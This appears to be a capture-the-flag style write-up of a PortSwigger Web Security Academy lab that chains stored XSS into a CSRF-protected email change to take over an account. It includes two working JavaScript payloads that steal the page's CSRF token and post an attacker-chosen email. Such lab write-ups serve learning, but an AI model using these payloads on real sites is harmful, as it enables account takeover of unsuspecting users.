



First, we have to see which functionality is triggereable by the user and we can exploit.
The page allows us to reset the password without having to reenter the password.
If we find a XSS vector, we can create a CSRF and make the user change the password to a password we all know.

In this case, we have to change the e-mail of the user.

This is the request to perform a e-mail change:


We can create a XSS that takes the `csrf` token, as well as the `cookie` header, and then add the email we want.

This is the PoC I like:

```javascript
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac8e1fe31e1017ee80982bb700310061.web-security-academy.net/email/change', {
        method: 'POST',
        body: 'csrf=' + csrf + '&email=john@wick.com'
    });
};
</script>
```

This script basically executes a function when the window is loaded and extracts the `csrf` token from the document's body. Then, it makes a request to the BurpSuite's page like the one that we saw before, changing the email.

We append the XSS to the page:


But this does not work (I don't know why), so I honesly took the solution from the laboratory:

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get', '/my-account', true);
req.send();

function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf=' + token + '&email=test@test.com')
}; 

</script>
```

This indeed, solves the lab:
